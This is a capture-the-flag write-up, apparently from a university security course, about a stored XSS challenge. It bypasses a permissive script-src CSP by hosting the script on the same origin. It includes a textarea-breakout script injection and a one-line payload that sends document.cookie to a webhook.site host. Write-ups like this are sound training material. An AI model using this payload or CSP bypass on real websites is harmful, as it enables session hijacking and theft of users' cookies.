 # Challenge `Read my lips: No more scripts!` Writeup

- Vulnerability:
    - XSS attack

- Where:
    - Blogpost creation content

- Impact:
    - Allows to steal remote user's cookie

## Steps to reproduce

This challenge is simmilar to the one before however by trying the previous exploits challenges we get this error: `Either the 'unsafe-inline' keyword, a hash, or a nonce is required to enable inline execution` which means that a CSP policy is set to prevent any inline scripts. However, it also includes `Content Security Policy directive: "script-src *"`which means that we can load external scripts.

Since we can load external scripts, we should create a javascript file and host it somewhere so that it can be loaded later. However, by coping the payload from the previous challenge and hosting it on a [pastebin](https://pastebin.com/), we get a `Cross-Origin Read Blocking (CORB)` warning meaning that the script must be hosted in the same origin as the server running. We can do this by using [Técnico's personal page](https://web.tecnico.ulisboa.pt). 

To do so, we should ssh to sigma (`ssh <istid>@sigma.tecnico.ulisboa.pt`) and create a script.js file under the /web directory. This file will contain the previous script: `location='https://webhook.site/<unique-id>/'+document.cookie`. Then, in the input area we should input `</textarea><script src="https://web.tecnico.ulisboa.pt/<istid>/script.js"></script>` and then click on the `Update post and send it for admin review` button and we will get the flag as before.
